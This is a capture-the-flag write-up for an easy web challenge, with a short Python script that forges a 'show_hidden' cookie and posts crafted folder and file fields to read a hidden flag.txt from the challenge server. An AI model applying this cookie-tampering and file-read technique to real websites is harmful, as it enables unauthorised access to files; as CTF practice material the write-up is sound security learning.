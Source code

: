# attack-strategies (ez)

### Description

The StarCraft III Interplanetary Newbie Championship is almost live and I was assigned to take care of teaching everyone in the Newbie-84 planet how to play. I made a blog so each individual can choose their favorite races and strategies to learn before the tournament. I will secretly participate and to give them a change, I hid my go to strategy somewhere on the website. Wanna try finding it?

[http://vespene-gas.hackers.best:31337/](http://vespene-gas.hackers.best:31337/)

### Files

None

### Solution

Theres a cookie called `show_hidden` and its set to `false`, if set to `true`.

![cookie.png](cookie.png)

the list of folders will have an extra option called flag.txt, but selecting it wont work cuz its a file, i hade to send the request manually and set the folder to `.` and file to `flag.txt`.

[solve.py](solve.py)

```python
import requests
url = 'http://vespene-gas.hackers.best:31337/'
headers = {
    'Cookie': 'show_hidden=true'
}
content = {
    'folder_select': '.',
    'file_select': 'flag.txt',
}
r = requests.post(url, data=content, headers=headers)

print(r.text) # -> shctf{get_zerg_rushed_nb}
```
